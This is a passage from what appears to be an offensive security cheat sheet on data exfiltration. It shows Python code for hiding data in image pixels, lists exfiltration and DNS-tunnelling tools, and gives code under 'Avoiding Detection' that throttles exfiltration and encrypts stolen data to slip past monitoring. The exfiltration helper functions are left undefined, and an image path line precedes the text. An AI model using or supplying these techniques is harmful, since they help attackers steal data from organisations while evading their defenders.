```python
```

#### 5. Steganography

```python
# Hide data in images
from PIL import Image
import numpy as np

def embed_data_in_image(image_path, data, output_path):
    img = Image.open(image_path)
    img_array = np.array(img)
    
    # Convert data to binary
    binary_data = ''.join(format(ord(c), '08b') for c in data)
    
    # Embed in LSB of pixels
    data_index = 0
    for i in range(img_array.shape[0]):
        for j in range(img_array.shape[1]):
            if data_index < len(binary_data):
                img_array[i][j][0] = (img_array[i][j][0] & 0xFE) | int(binary_data[data_index])
                data_index += 1
    
    result = Image.fromarray(img_array)
    result.save(output_path)
```

### Exfiltration Tools

- **DNSExfiltrator**: DNS-based data exfiltration
- **PyExfil**: Python exfiltration framework
- **Cloakify**: Data exfiltration via text obfuscation
- **Iodine**: IP over DNS tunnel

### Avoiding Detection

```python
# Throttle exfiltration rate
def throttled_exfiltration(data, max_rate_mbps=0.1):
    chunk_size = 1024  # 1KB chunks
    delay = (chunk_size * 8) / (max_rate_mbps * 1024 * 1024)
    
    for i in range(0, len(data), chunk_size):
        chunk = data[i:i+chunk_size]
        exfiltrate_chunk(chunk)
        time.sleep(delay)

# Encrypt exfiltrated data
from cryptography.fernet import Fernet

def encrypt_and_exfiltrate(data):
    key = Fernet.generate_key()
    cipher = Fernet(key)
    encrypted = cipher.encrypt(data)
    
    # Exfiltrate key separately
    exfiltrate_key(key)
    
    # Exfiltrate encrypted data
    exfiltrate_data(encrypted)
```
